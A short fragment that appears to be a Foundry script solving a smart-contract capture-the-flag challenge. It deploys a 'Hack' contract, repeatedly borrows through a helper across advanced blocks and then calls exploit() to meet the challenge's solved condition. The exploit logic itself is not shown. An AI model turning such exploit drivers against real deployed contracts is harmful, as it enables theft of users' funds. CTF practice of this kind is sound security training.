 ```js
        Challenge challenge = Challenge(vm.envAddress("CHALL"));
        vm.roll(block.number + 1);
        Hack hack = new Hack(challenge);
        hack.initialize();
        BorrowHelper helper = hack.rebaseBorrower();
        for (uint i; i < 10; ++i) {
            vm.roll(block.number + 1);
            helper.borrow();
        }
        hack.exploit();
        require(challenge.isSolved());
        vm.stopBroadcast();
    }
}
```
